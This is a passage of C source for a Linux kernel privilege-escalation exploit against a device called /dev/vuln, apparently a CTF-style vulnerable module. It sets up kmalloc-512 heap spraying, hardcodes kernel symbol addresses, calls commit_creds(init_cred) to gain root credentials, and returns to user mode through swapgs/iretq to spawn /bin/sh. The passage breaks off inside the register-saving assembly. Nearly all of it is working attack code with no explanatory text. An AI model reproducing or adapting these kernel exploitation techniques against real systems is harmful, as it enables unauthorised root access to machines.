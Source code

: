 ```c
#define CMD_ALLOC   0xf000
#define CMD_WRITE   0xf001
#define CMD_FREE    0xf002

#define OBJ_MAX     0x200
#define OBJ_SIZE    0x200
#define MODULE_NAME "/dev/vuln"

#define SPRAY 0x100

typedef struct {
    int id;
    size_t size;
    char *data;
} request_t;

unsigned long cs;
unsigned long ss;
unsigned long rsp;
unsigned long rflags;

unsigned long commit_creds = 0xffffffff812a1050;
unsigned long init_cred = 0xffffffff81e3bfa0;
unsigned long modprobe_path = 0xffffffff81eaeac0;
unsigned long kbase = 0xffffffff81000000;
// /sys/kernel/slab/kmalloc-512/objs_per_slab , cpu_partial
unsigned int ops512 = 8;
unsigned int cp512 = 52;

void shell() {
    puts("[*] shell");
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

static void ret2user(unsigned long rip) {
    asm volatile ("swapgs\n");
    asm volatile(
        "movq %0, 0x20(%%rsp)\t\n"
        "movq %1, 0x18(%%rsp)\t\n"
        "movq %2, 0x10(%%rsp)\t\n"
        "movq %3, 0x08(%%rsp)\t\n"
        "movq %4, 0x00(%%rsp)\t\n"
        "iretq"
        :
        : "r"(ss),
          "r"(rsp),
          "r"(rflags),
          "r"(cs), "r"(rip));
}

void lpe() {
    void (*cc)(char *) = (void *)commit_creds;
    (*cc)((void *)init_cred);
    ret2user((unsigned long)shell);
}

static void refuge() {
    asm volatile (
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %2\n"
```